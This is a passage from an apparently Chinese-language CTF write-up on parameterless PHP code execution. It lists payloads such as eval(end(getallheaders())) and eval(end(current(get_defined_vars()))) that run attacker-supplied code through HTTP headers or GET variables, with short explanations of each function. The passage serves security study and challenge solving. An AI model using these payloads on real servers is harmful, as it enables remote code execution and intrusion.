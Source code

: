 目录下文件

## payload

### payload\_1 getenv()

```plain
var_dump(getenv(phpinfo()));
```

**getenv() 获取一个环境变量的值，phpinfo() 获取全部的环境变量，其实不是很理解，直接phpinfo()就好了。**

### payload\_2 getallheaders()

```plain
eval(end(getallheaders()));
```

**end() 将数组的内部指针移到最后一个；**

**getallheaders() 获取所有的http请求头；**

[![](assets/1698897208-5e2d23beb1c95d94fa04e5978e95b64e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210325204737-472bea42-8d68-1.png)

这里需要两个`eval`的原因，我认为是，如果只有一个`eval`就只是执行 `end(getallheaders());` 获取了其返回值，但是并没有执行其返回值，再加一个`eval` ，也就是获取了返回值后，再`eval()`。

如果用bp打，传最后一个似乎并不行，那么我们可以尝试修改ua头，然后用把end改成next；

### payload\_3 get\_defined\_vars()

```plain
eval(end(current(get_defined_vars())));&jiang=phpinfo();
```
